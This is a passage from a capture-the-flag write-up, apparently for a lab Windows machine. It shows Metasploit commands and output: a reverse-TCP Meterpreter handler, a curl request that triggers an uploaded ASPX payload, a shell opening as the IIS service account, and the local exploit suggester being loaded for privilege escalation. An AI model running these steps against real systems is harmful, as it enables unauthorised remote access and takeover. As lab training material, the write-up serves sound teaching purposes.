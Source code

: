 ```
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 1312
LPORT => 1312
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.14.17:1312
```

Okay, now we trigger:

```
$ curl 10.10.10.5/devel.aspx
```

And return our attention to the Metasploit console:

```
[*] Sending stage (177734 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.17:1312 -> 10.10.10.5:49181) at 2025-04-19 19:47:16 +0200

meterpreter > getuid
Server username: IIS APPPOOL\Web
```

We have our shell! But we have service account permissions. We'll need to escalate our privileges to claim the flags! How? We should let Metasploit figure that out:

```
meterpreter > cd c:\\windows\\temp

meterpreter > pwd
c:\windows\Temp
```

Now `Ctrl+Z` to background:

```
Background session 1? [y/N]
msf6 exploit(multi/handler) >
```

And then load up `local_exploit_suggester`:

```
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.
```
